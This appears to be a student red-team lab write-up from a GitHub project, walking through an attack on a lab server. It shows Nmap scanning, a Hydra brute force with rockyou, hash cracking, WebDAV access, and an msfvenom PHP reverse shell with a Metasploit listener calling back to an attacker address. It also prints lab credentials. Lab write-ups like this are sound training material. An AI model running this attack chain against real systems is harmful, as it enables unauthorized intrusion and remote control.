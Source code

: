 ﻿## Red Team 

### Step 1: Discovering the IP address of the linux server.

In order to find the ip address of the machine, we will need to use a network mapping tool called Nmap to scan the network. 

- Open the terminal and run: nmap 192.168.1.0/24 (We used this ip cidr range bcause our attack machine belongs to this subnetwork.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/Images/1_nmap.jpg)

From the Nmap scan we can see that port 80 is open. Next we opened a web browser and typed the IP address of the machine into the address bar.

- Open web browser and navigate to 192.168.1.105 and press enter. 
![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/Images/2_web_discovery.jpg)



### Step 2: Locating the hidden directory on the server.

- Navigating through different directories, i saw a recurring message:

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/Images/recurring%20message.JPG)

- Upon such discovery I navigated to the directory by typing: 192.168.1.105/company_folders/secret_folder

- The directory requested authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only"

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/ashton_eyes_only.jpg)


### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient
to use a brute force attack, specifically Hydra. 

- Using Ashton's name, run the Hydra attack against the directory: 

   - type: hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/hydra_sytanx.jpg)

- The brute force attack may take some time. Once it finished, the username is ashton and the password is leopoldo.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/password_discovery.jpg)

- Went back to the web browser and used the credentiial to log in. We open the file connecting_to_webdav file.  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/7_inside_secret_directory.jpg)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/8a_webdav_hash.jpg)


### Step 4: Connect to the server via Webdav 

There are several ways to break the password hash. But in this intanse we avoided waiting for john to crack the password hash, we used https://crackstation.net
paste the password hash and filled out the CAPTCHA; and clicked Crack Hashes. 

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/9_password_hash_cracking.jpg)

- The password is revealed as: linux4u

### Step 5: Connecting to the server via WebDAV.

- We gained important information to make the WebDAV connection on our local attack machine. We used that information by:
	
	- We opened the file system shortcut from the desktop.
	
	- Clicked on Browse Network.

	- In the URL bar, typed: dav://192.168.1.105/webdav, and entered the credentials to log in.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)


### Step 6: Creating and Uploading a PHP reverse shell payload.

- To set up the reverse shell, run:
	- msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/11_msfvenom.jpg)

- The series of command above does the following :

	- msfconsole to launch msfconsole.

	- use exploit/multi/handler
	
	- set payload php/meterpreter/reverse_tcp

	- show options and point out they need to set the LHOST

	- set LHOST 192.168.1.90(Attacker Machine)

	- exploit  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/12_listener.jpg)

- Place the reverse shell onto the webDAV directory

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/13_implanting_the_reverse.jpg)

- We logged back in, visited the webdav folder by navigating to 192.168.1.105/webdav. Used the credentials obtained before, user:ryan pass:linux4u

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/14_webdav_%20access_laststeps.png)

- I visited where i uploaded the reverse shell and clicked it to activate it. (If it seems like tge browser is hanging or loading, that means it has worked.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/15_activiating_the_shell.jpg)


### Step 7: Find and capture the flag. 

- on the listener, we are going to search for the file flag.txt located in the root directory. To do such i did the following:

	- Dropped a bash shell with the command: shell

	- Changed directory to the / directory: cd /

	- Searched the system for any files containing the phrase "flag" : find . -iname flag.txt

- Printed the file once i located it by: cat flag.txt

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/16_view_files.jpg)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/check_point.jpg)


